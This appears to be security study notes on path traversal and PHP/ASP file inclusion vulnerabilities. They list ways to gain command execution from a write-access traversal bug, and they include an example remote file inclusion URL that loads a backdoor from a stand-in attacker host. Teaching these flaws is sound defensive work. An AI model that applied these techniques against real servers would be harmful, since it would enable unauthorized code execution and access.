 >If you find a path traversal vulnerability that grants write access, your main goal should be to exploit this to achieve arbitrary execution of commands on the server. Here are some ways to exploit this vulnerability:
>> Create scripts in users' startup folders.
>
>> Modify files such `in.ftpd` to execute arbitrary commands when a user next connects.
>
>> Write scripts to a web directory with execute permissions, and call them from your browser.


## File Inclusion Vulnerabilities
The facility to include files enables developers to place reusable code components into separate files and to include these within function-specific code files as and when they are needed. The code within the included file is interpreted just as if it had been inserted at the location of the include directive.

### _Remote File Inclusion_

Consider a PHP application that delivers different content to people in different locations. When users choose their location, this is communicated to the server via a request parameter, as follows:

```
https://wahh-app.com/main.php?Country=US
```

The application processes the `Country` parameter as follows:

```
$country = $_GET['Country'];
include($countr.'.php');
```

This causes the execution environment to load the file `US.php` that is located on the web server filesystem. The contents of this file are effectively copied into the `main.php` file and executed.

An attacker can exploit this behavior in different ways, the most serious of which is to specify an external URL as the location of the include file. The PHP include function accepts this as input, and the execution environment retrieves the specified file and executes its contents. Hence, an attacker can construct a malicious script containing arbitrarily complex content, host this on a web server he controls, and invoke it for execution via the vulnerable application function. For example:

```
https://wahh-app.com/main.php?Country=http://wahh-attacker.com/backdoor
```


### _Local File Inclusion_

In some cases, include files are loaded on the basis of user-controllable data, but it is not possible to specify a URL to a file on an external server. For example, if user-controllable data is passed to the ASP function `Server.Execute`, an attacker may be able to cause an arbitrary ASP script to be executed, provided that this script belongs to the same application as the one that is calling the function.

In this situation, you may still be able to exploit the application's behavior to perform unauthorized actions:
- There may be server-executable files on the server that you cannot access through the normal route. For example, any requests to the path `/admin` may be blocked through application-wide access controls. If you can cause sensitive functionality to be included into a page that you're authorized to access, you may be able to gain access to that functionality.
- There may be static resources on the server that are similarly protected from direct access. If you can cause these to be dynamically included into other application pages, the execution environment typically simply copies the contents of the static resources into its response.
